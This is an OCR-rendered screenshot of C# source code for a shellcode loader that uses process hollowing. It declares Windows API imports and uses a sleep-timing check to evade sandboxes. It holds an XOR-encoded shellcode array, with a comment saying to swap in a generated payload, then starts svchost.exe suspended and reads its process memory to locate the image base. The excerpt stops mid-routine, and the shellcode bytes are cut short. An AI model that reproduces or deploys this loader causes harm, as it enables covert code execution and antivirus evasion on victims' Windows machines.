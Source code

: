 ```csharp
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes,
            IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
            [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass,
            ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer,
            int dwSize, out IntPtr lpNumberOfbytesRW);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern uint ResumeThread(IntPtr hThread);

        public static void Main(string[] args)
        {
            // Time delay
            DateTime t1 = DateTime.Now;
            Sleep(10000);
            double deltaT = DateTime.Now.Subtract(t1).TotalSeconds;
            if (deltaT < 9.5)
            {
                return;
            }
            byte[] shellcode = new byte[511] {
0x26, 0x92, 0x59, 0x3e, 0x2a, 0x32, 0x16, 0xda,...
}; // Replace this with the payload generated from the xor encoding script
            STARTUPINFO StartInfo = new STARTUPINFO();
            PROCESS_INFORMATION ProcInfo = new PROCESS_INFORMATION();
            bool cResult = CreateProcess(null, "c:\\windows\\system32\\svchost.exe", IntPtr.Zero, IntPtr.Zero,
                false, 0x4, IntPtr.Zero, null, ref StartInfo, out ProcInfo);

            PROCESS_BASIC_INFORMATION BasicInfo = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            long qResult = ZwQueryInformationProcess(ProcInfo.hProcess, 0, ref BasicInfo, (uint)(IntPtr.Size * 6), ref tmp);
            IntPtr baseImageAddr = (IntPtr)((Int64)BasicInfo.PebAddress + 0x10);

            byte[] addrBuf = new byte[0x8];
            IntPtr bytesRW = new IntPtr();
            bool result = ReadProcessMemory(ProcInfo.hProcess, baseImageAddr, addrBuf, addrBuf.Length, out bytesRW);
```